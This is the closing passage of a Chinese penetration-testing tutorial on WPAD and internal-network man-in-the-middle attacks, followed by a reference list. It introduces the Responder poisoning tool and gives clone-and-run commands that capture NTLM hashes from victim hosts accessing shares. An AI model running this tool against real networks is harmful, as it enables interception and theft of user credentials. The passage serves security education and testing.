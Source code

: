 > Responder is a LLMNR, NBT-NS and MDNS poisoner, with built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting NTLMv1/NTLMv2/LMv2, Extended Security NTLMSSP and Basic HTTP authentication.

Responder可以说是内网中间人攻击神器，很值得尝试

简单使用命令如下：

```
git clone https://github.com/SpiderLabs/Responder.git
cd Responder/

python Responder.py -I eth0 -i 192.168.16.245 -b

```

当被攻击主机访问主机共享时就能抓到其hash，如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/2c66a87ad83056fcac856c6ba170476622aabc31.jpg)

0x08 小结
=====

虽然WPAD不是很新的技术，但是对其了解的都不太多，在内网渗透中应该被重视。

**参考资料：**

*   [http://drops.wooyun.org/papers/10887#comments](http://drops.wooyun.org/papers/10887#comments)
*   [http://www.netresec.com/?page=Blog&month=2012-07&post=WPAD-Man-in-the-Middle](http://www.netresec.com/?page=Blog&month=2012-07&post=WPAD-Man-in-the-Middle)
*   [http://wenku.baidu.com/link?url=KFoXTvqgxnNR1lxM_2dHCCRlJXp0D2GXa80fI7BCjR7XSoDqv2jmLJ8WJoSaew9MFSpKmTDV9lxNF2XKhTaJ1T8rSghDrhZ71OqlQ1yqx-a](http://wenku.baidu.com/link?url=KFoXTvqgxnNR1lxM_2dHCCRlJXp0D2GXa80fI7BCjR7XSoDqv2jmLJ8WJoSaew9MFSpKmTDV9lxNF2XKhTaJ1T8rSghDrhZ71OqlQ1yqx-a)
*   [http://www.ibm.com/developerworks/cn/linux/1309_quwei_wpad/](http://www.ibm.com/developerworks/cn/linux/1309_quwei_wpad/)
*   [https://securelist.com/blog/incidents/33002/flame-replication-via-windows-update-mitm-proxy-server-18/](https://securelist.com/blog/incidents/33002/flame-replication-via-windows-update-mitm-proxy-server-18/)
*   [https://github.com/SpiderLabs/Responder](https://github.com/SpiderLabs/Responder)
*   [https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/spoof/nbns/nbns_response.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/spoof/nbns/nbns_response.rb)
*   [https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/server/wpad.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/server/wpad.rb)
*   [https://www.trustwave.com/Resources/SpiderLabs-Blog/Responder-2-0---||||||Owning-Windows-Networks-part-3/](https://www.trustwave.com/Resources/SpiderLabs-Blog/Responder-2-0---Owning-Windows-Networks-part-3/)
*   [https://github.com/lgandx/Responder-Windows](https://github.com/lgandx/Responder-Windows)
*   [http://www.censornet.com/pdf/WPAD-Configuration-Guide.pdf](http://www.censornet.com/pdf/WPAD-Configuration-Guide.pdf)
*   [http://findproxyforurl.com/wpad-introduction/](http://findproxyforurl.com/wpad-introduction/)

本文由三好学生原创并首发于乌云drops，转载请注明
